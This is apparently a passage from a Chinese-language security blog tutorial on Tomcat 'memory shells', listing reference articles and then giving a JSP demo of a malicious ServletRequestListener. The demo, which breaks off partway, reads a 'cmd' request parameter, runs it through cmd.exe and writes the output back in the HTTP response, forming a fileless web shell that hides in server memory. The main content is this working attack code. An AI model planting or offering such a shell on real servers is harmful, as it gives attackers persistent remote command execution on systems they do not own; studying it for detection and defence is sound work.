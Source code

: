 这里直接贴出参考文章，后面有空的话，会在我的博客中补全这部分的研究：

> [https://xz.aliyun.com/t/9914](https://xz.aliyun.com/t/9914)
> 
> [https://mp.weixin.qq.com/s/sAVh3BLYNHShKwg3b7WZlQ](https://mp.weixin.qq.com/s/sAVh3BLYNHShKwg3b7WZlQ)
> 
> [https://www.cnblogs.com/CoLo/p/16840371.html](https://www.cnblogs.com/CoLo/p/16840371.html)
> 
> [https://flowerwind.github.io/2021/10/11/tomcat6、7、8、9内存马/](https://flowerwind.github.io/2021/10/11/tomcat6%E3%80%817%E3%80%818%E3%80%819%E5%86%85%E5%AD%98%E9%A9%AC/)
> 
> [https://9bie.org/index.php/archives/960/](https://9bie.org/index.php/archives/960/)
> 
> [https://github.com/xiaopan233/GenerateNoHard](https://github.com/xiaopan233/GenerateNoHard)
> 
> [https://github.com/ax1sX/MemShell/tree/main/TomcatMemShell](https://github.com/ax1sX/MemShell/tree/main/TomcatMemShell)

## 3.3 Listener 内存马

### 3.3.1 简单的 Listener 内存马 demo 编写

根据我们在上面的`2.9`节中所讨论的内容，我们可以得出以下结论：

如果我们想要写一个`Listener`内存马，需要经过以下步骤：

-   继承并编写一个恶意`Listener`
-   获取`StandardContext`
-   调用`StandardContext.addApplicationEventListener()`添加恶意`Listener`

由以上结论我们可以写出如下内存马`demo`：

```bash
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>

<%!
    public class EvilListener implements ServletRequestListener {
        public void requestDestroyed(ServletRequestEvent sre) {
            HttpServletRequest req = (HttpServletRequest) sre.getServletRequest();
            if (req.getParameter("cmd") != null){
                InputStream in = null;
                try {
                    in = Runtime.getRuntime().exec(new String[]{"cmd.exe","/c",req.getParameter("cmd")}).getInputStream();
                    Scanner s = new Scanner(in, "GBK").useDelimiter("\\A");
                    String out = s.hasNext()?s.next():"";
                    Field requestF = req.getClass().getDeclaredField("request");
                    requestF.setAccessible(true);
                    Request request = (Request)requestF.get(req);
                    request.getResponse().setCharacterEncoding("GBK");
                    request.getResponse().getWriter().write(out);
                }
                catch (Exception ignored) {}
            }
        }
        public void requestInitialized(ServletRequestEvent sre) {}
    }
%>

<%
    Field reqF = request.getClass().getDeclaredField("request");
```